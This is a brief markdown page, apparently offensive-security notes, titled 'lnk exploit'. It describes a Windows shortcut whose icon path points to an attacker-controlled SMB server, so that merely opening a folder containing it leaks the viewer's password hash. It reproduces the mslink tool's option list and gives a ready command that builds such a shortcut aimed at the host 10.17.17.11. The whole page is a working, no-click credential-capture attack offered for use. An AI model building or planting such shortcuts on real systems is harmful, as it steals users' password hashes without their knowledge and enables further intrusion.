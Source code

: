 # lnk exploit
you can change the icon-path in a LNK-file and point it to a SMB-server capturing the users password-hash.

The beauty with this trick, is that the user don't even has to click the lnk. Opening a window displaying contents of a folder containing such a file, is enough.

[https://www.trendmicro.com/en\_us/research/17/e/rising-trend-attackers-using-lnk-files-download-malware.html](https://www.trendmicro.com/en_us/research/17/e/rising-trend-attackers-using-lnk-files-download-malware.html) 

First we create our lnk, using this excellent tool,

[http://www.mamachine.org/mslink/index.en.html](http://www.mamachine.org/mslink/index.en.html) 

\-l, --lnk-target               Précise la cible du raccourci  
\-o, --output-file              Enregistre le raccourci dans un fichier  
\-n, --name                     Spécifie une description au raccourci  
\-w, --working-dir              Spécifie le répertoire de lancement de la commande  
\-a, --arguments                Spécifie les arguments de la commande lancée  
\-i, --icon                     Spécifie le chemin de l'icône  
\-p, --printer-link             Génère un raccourci de type imprimante réseau

```text-plain
./mslink -l notimportant -n shortcut -i \\\\10.17.17.11\\test -o shortcut.lnk
```
